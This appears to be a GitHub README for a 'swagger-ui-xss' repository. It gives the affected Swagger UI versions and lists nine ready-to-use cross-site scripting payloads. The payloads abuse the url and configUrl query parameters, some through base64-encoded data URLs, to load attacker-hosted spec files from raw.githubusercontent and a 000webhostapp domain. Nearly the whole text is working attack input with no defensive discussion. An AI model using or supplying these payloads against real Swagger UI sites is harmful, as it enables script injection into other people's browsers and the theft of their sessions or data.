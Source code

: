 # swagger-ui-xss
Swagger UI version affected: `>=3.14.1` &lt; `3.38.0`

## Payload

1. `?url=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/xss-domain.yaml`
2. `?url=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/xss-fetch.yaml`
3. `?configUrl=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/config.json`
4. `?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2F5ZGlsZmFocmkvc3dhZ2dlci11aS14c3MvbWFpbi94c3MtZmV0Y2gueWFtbCIKfQ==`
5. `/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2F5ZGlsZmFocmkvc3dhZ2dlci11aS14c3MvbWFpbi94c3MtZmV0Y2gueWFtbCIKfQ==`
6. `?configUrl=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/xss-fetch2.yaml`
7. `?configUrl=https://ablush-dresses.000webhostapp.com/test.json`
8. `?url=https://ablush-dresses.000webhostapp.com/test.yaml`
9. `?url=https://ablush-dresses.000webhostapp.com/fetch.yaml`



Thanks to: https://github.com/VictorNS69/swagger-ui-xss/
